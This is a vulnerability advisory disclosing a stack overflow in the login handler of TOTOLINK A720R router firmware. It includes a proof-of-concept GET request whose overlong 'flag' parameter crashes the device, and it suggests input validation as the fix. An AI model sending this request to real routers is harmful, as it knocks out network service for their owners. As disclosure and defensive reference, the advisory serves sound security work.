

# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Stack Overflow

Author:Jiaqian Peng,Huizhao Wang,Zuoguang Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn,wangzuoguang16@mails.ucas.ac.cn


## Vulnerability description

We found an stack overflow vulnerability  in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to crash the server.

**Stack Overflow**

In `lighttpd` binary:

In `Form_Login` function, `flag` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `flag` to crash the server.

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part. For example, the length can be limited to only 2 and must be a number.


## PoC

We set `flag` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa** , then sending GET request such as:

http://192.168.0.1/formLoginAuth.htm?action=login&flag=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

```http
GET /formLoginAuth.htm?action=login&flag=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: SESSION_ID=2:1591953155:2
Upgrade-Insecure-Requests: 1
```


## Result

The target router crashes and cannot provide services correctly and persistently.

